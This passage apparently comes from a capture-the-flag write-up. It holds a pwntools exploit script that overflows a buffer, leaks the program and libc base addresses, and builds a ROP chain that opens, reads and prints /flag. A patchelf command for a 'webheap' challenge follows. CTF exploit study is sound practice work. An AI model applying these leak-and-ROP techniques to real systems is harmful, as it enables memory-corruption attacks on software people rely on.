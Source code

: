 ```python
sh.send(b"A"*520)
# gdb.attach(sh, 'b getchar')
# pause()
sh.send(b'\x00')
sh.recvline()

proc_base = sh.recv(1)
proc_base += sh.recv(5)
proc_base = u64(proc_base.ljust(8, b'\x00')) - 0x1955
libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x24083

pop_rax_ret_addr = libc_base + 0x36174
pop_rdi_ret_addr = libc_base + 0x23b6a
pop_rsi_ret_addr = libc_base + 0x02601f
pop_rdx_ret_addr = libc_base + 0x142c92
bss_addr = proc_base + elf.bss() + 0x100

print("bss_addr >>>", hex(bss_addr))
print("libc_base >>>", hex(libc_base))
print("proc_base >>>", hex(proc_base))

payload = p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_ret_addr) + p64(bss_addr) + p64(pop_rdx_ret_addr) + p64(0x100) + p64(libc_base + libc.sym['read'])
payload += p64(pop_rdi_ret_addr) + p64(0) + p64(libc_base + libc.sym['close'])
payload += p64(pop_rdi_ret_addr) + p64(bss_addr) + p64(pop_rsi_ret_addr) + p64(0) + p64(libc_base + libc.sym['open']) 
payload += p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_ret_addr) + p64(bss_addr + 0x100) + p64(pop_rdx_ret_addr) + p64(0x100) + p64(libc_base + libc.sym['read'])
payload += p64(pop_rdi_ret_addr) + p64(1) + p64(pop_rsi_ret_addr) + p64(bss_addr + 0x100) + p64(pop_rdx_ret_addr) + p64(0x100) + p64(libc_base + libc.sym['write'])

# gdb.attach(sh, 'b *' + hex(pop_rdi_ret_addr))
# pause()
# print(hex(len(payload1)))

sh.send(payload)
sh.sendline(b"/flag\x00")
sh.interactive()

```



## webheap

```bash
patchelf --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ld-2.27.so --replace-needed libm.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libm.so.6 --replace-needed libc.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6 --replace-needed libgcc_s.so.1 /mnt/f/Downloads/libgcc_s.so.1 --replace-needed libstdc++.so.6 /mnt/f/Downloads/libstdc++.so.6.0.25 webheap
```
